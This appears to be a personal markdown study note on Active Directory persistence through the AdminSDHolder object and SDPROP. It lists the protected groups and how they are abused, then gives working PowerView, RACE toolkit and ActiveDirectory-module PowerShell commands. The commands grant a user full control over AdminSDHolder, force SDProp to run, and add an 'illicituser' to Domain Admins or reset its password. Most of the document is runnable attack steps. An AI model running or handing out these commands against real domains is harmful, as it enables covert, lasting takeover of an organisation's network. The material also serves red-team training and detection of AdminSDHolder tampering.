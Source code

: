 ```yaml
---
tags:
  - persistence
cssclasses:
  - MimiKatz
  - persistence-using-ACLs
  - SDPROP
  - PowerView
  - RACE-toolkit
aliases:
---
```

- Resides in the System container of a domain and used to control permissions - using an [[ACL]] - for certain built-in privileged groups (called Protected Groups). 
- Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

| List of Protected Groups     |
| ---------------------------- |
| Account Operators            |
| Backup Operators             |
| Server Operators             |
| Print Operators              |
| Domain Admins                |
| Replicator                   |
| Enterprise Admins            |
| Domain Controllers           |
| Read-only Domain Controllers |
| Schema Admins                |
| Administrators               |
Well known abuse of some of the Protected Groups, all of which can log on locally to DC

| Protected Group   | How it is abused                                                                     |
| ----------------- | ------------------------------------------------------------------------------------ |
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.          |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators  | Run a command as system (using the disabled Browser service)                         |
| Print Operators   | Copy ntds.dit backup, load device drivers.                                           |
- With Domain Admin privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.
- In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC groups like Domain Admins without actually being a member of it.

```powershell title:"Add FullControl permissions for a user to the AdminSDHolder as Domain Admin (using PowerView)"
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,domain-controller,DC=domain,DC=name' -PrincipalIdentity username -Rights All -PrincipalDomain domain.name -TargetDomain domain.name -Verbose
```

```powershell title:"Add FullControl permissions for a user to the AdminSDHolder as Domain Admin (using ActiveDirectory Module and RACE toolkit)"
Set-DCPermissions -Method AdminSDHolder -SAMAccountName username -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=domain,DC=name' -Verbose
```

Other rights such as `ResetPassword` and `WriteMembers` can also be used.

```powershell title:"Run SDProp manually"
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

```powershell title:"Run SDProp manually for pre-Server 2008 machines"
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

#### Check DA permission

```powershell title:"Check the Domain Admins permission (PowerView)"
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "username"}
```

```powershell title:"Check the Domain Admins permission (ActiveDirectory module)"
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=domain,DC=name').Access | ?{$_.IdentityReference -match 'username'}
```

#### Abuse FullControl permissions

```powershell title:"Abusing FullControl (PowerView)"
Add-DomainGroupMember -Identity 'Domain Admins' -Members illicituser -Verbose
```

```powershell title:"Abusing FullControl (ActiveDirectory Module)"
Add-ADGroupMember -Identity 'Domain Admins' -Members illicituser
```

#### Abuse ResetPassword permissions

```powershell title:"Abusing ResetPassword (PowerView)"
Set-DomainUserPassword -Identity illicituser -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

```powershell title:"Abusing ResetPassword (ActiveDirectory Module)"
Set-ADAccountPassword -Identity illicituser -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

